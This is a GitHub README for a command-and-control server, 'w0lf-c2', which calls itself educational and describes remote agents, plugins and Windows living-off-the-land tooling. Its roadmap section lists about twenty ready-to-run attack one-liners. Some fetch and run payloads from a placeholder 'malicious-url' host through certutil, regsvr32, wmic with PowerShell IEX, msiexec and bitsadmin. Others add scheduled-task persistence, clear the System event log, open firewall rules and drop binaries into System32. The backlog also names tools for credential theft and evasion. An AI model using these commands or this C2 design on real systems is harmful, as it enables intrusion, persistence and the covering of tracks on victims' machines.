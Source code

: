 # C2 Server

## Overview

This repository serves as a educational reference and contains the implementation of a Command and Control (C&C) server used for managing and controlling remote clients. The server facilitates communication with these clients, allowing for command execution, data retrieval, and other operations as needed.

## Features

- **Agent Management**: Registering, managing, and communicating with remote clients.
- **Command Execution**: Sending commands to clients and receiving responses.
- **Data Exchange**: Transferring files, data, or payloads securely between server and clients.
- **Security**: Implementing encryption and secure communication channels.
- **Scalability**: Supporting multiple clients simultaneously and efficiently.
- **Pluggable**: Support for additional commands with plugins.

## Setup Instructions

1. **Prerequisites**:
   - Node.js 18+ and npm installed.

2. **Installation**:
   ```bash
   git clone <repository_url>
   cd w0lf-c2
   npm install

## Features

- Client was built on six diffent languages (c, rust, powershell, python, js, go)
- Multiple client session management
- Extended features through plugins.
- Server and client logging
- Plugins:
   - Client Manager: A client plugin to manage the remote client.
   - Cmd.exe Binaries: A client plugin that provides native cmd.exe commands.
   - File Manager: A client plugin to manage and manipulate files and folders.
   - System Profiling: A client plugin to profile the system.
   - Living Off The Land Binaries: A client plugin that provides Windows LOLBin commands.
   - Screensaver: A server plugin to show a couple screensavers.

## In The Works

- Additional communication channels (https, http2, udp, tls)
- Add more LOLBas commands
   ```bash
   # 1. certutil.exe for Downloading Files
   certutil.exe -urlcache -split -f http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 2. regsvr32.exe for Script Execution
   regsvr32.exe /s /n /u /i:http://malicious-url/script.sct scrobj.dll
   # 3. wmic.exe for Remote Command Execution
   wmic.exe process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command 'IEX ((New-Object Net.WebClient).DownloadStrin ('http://malicious-url/payload.ps1'))'"
   # 4. rundll32.exe for DLL Execution
   rundll32.exe C:\Path\To\Malicious.dll,EntryPoint
   # 5. schtasks.exe for Task Scheduling
   schtasks.exe /create /tn "UpdateTask" /tr "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1" /sc daily /st 12:00
   # 6. at.exe for Task Scheduling (Legacy)
   at.exe 12:00 /every:M,T,W,Th,F,Sa,Su "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1"
   # 7. msiexec.exe for MSI Execution
   msiexec.exe /quiet /i http://malicious-url/payload.msi
   # 8. scrcons.exe for Script Execution
   scrcons.exe C:\Path\To\Script.vbs
   # 9. xcopy.exe for File Copying
   xcopy /Y C:\Path\To\Malicious.exe C:\Windows\System32\Malicious.exe
   # 10. whoami.exe for User Information
   whoami.exe /all
   # 11. fsutil.exe for File System Utility
   fsutil file createnew C:\Path\To\Malicious.txt 1000
   # 12. wevtutil.exe for Event Log Management
   wevtutil.exe cl System
   # 13. certreq.exe for Certificate Requests
   certreq.exe -new Malicious.inf
   # 14. typeperf.exe for Performance Data
   typeperf "\Processor(_Total)\% Processor Time"
   # 15. bitsadmin.exe for Background File Transfers
   bitsadmin.exe /transfer "jobname" /download /priority normal http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 16. netsh.exe for Network Shell
   netsh advfirewall firewall add rule name="MaliciousRule" dir=in action=allow program="C:\Path\To\Malicious.exe" enable=yes
   # 17. cscript.exe for Script Execution
   cscript C:\Path\To\Malicious.vbs
   # 18. icacls.exe for ACL Management
   icacls C:\Path\To\Malicious.exe /grant Everyone:(RX)
   # 19. wbadmin.exe for Backup Operations
   wbadmin start backup -backupTarget:\\localhost\Backup -include:C:\Path\To\Malicious.exe
   # 20. xcopy.exe with /b Switch for Payload Dropping
   xcopy /b Malicious.exe C:\Windows\System32\LegitFile.dll

## Backlog
Other ideas and things on the back burner:

- Net Commands: Used for network reconnaissance and information gathering.
- netstat: Displays active network connections, listening ports, and related information.
- net: Used for various network operations such as user authentication, shares, sessions, and more.
- arp: Displays and modifies the ARP cache.

- PowerShell Commands: PowerShell provides extensive capabilities for attackers, including scripting, execution of malicious payloads, and interacting with system APIs.
- Invoke-Mimikatz: Executes Mimikatz, a tool for retrieving credentials from memory.
- Invoke-Obfuscation: Obfuscates malicious PowerShell scripts to evade detection.
- Invoke-Shellcode: Executes shellcode in memory without writing to disk.

- Enumeration Tools: Tools used to gather information about the compromised system and the network.
- Nmap: A powerful network scanner used for host discovery, port scanning, and service enumeration.
- enum4linux: Enumerates information from Windows and Samba systems, such as shares, users, groups, policies, and more.
- Responder: Listens for and captures NetNTLMv1/v2 authentication requests, used for credential theft.

- Exploitation Frameworks: Frameworks used to exploit vulnerabilities and gain unauthorized access.
- Metasploit Framework: A popular exploitation framework that includes a large collection of exploits, payloads, and post-exploitation modules.
- Empire: A post-exploitation framework that allows attackers to maintain persistence, escalate privileges, and exfiltrate data.

- Privilege Escalation Tools: Tools and techniques used to escalate privileges on compromised systems.
- PowerUp: PowerShell script that checks for common Windows privilege escalation vectors.
- Windows Exploit Suggester: Python script that suggests potential exploits for Windows systems based on OS version and patch level.
